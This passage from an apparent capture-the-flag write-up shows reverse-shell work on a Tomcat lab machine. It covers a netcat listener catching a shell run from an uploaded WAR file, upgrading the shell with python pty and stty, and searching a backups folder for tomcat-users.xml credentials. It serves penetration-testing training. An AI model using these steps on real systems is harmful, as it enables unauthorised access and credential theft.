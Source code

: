```text
nc -nlvp 1234
```

Click on the war file in the Tomcat Application Manager to execute our shell.

![](../images/max/919/1*IdEmNntSrUG-WS7-31Wj7g.png)

We get a shell! Let’s upgrade it to a better shell.

```text
python -c 'import pty; pty.spawn("/bin/bash")'
```

This gives us a partially interactive bash shell. To get a fully interactive shell, background the session \(_CTRL+ Z_\) and run the following in your terminal which tells your terminal to pass keyboard shortcuts to the shell.

```text
stty raw -echo
```

Once that is done, run the command “_fg_” to bring netcat back to the foreground. Then use the following command to give the shell the ability to clear the screen.

```text
export TERM=xterm
```

Unfortunately, we’re running as the user _tomcat_ and we don’t have privileges to view the _user.txt_ flag.

Let’s view the content of the directory we’re in.

```text
tomcat@kotarak-dmz:/$ ls -la
total 109
drwxr-xr-x  27 root root  4096 Aug 29  2017 .
drwxr-xr-x  27 root root  4096 Aug 29  2017 ..
drwxr-xr-x   3 root root  4096 Jul 21  2017 backups
drwxr-xr-x   2 root root  4096 Jul  9  2017 bin
drwxr-xr-x   4 root root  1024 Aug 29  2017 boot
drwxr-x---   3 root root  4096 Jul 19  2017 .config
drwxr-xr-x  20 root root  3980 Feb  7 06:09 dev
drwxr-xr-x 105 root root  4096 Jan 18  2018 etc
....
```

View the content of the _backup_ directory.

```text
tomcat@kotarak-dmz:/$ cd backups/backups/tomcat@kotarak-dmz:/backups/backups$ ls
tomcat-users.xmltomcat@kotarak-dmz:/backups/backups$ cat tomcat-users.xml 
cat: tomcat-users.xml: Permission denied
```

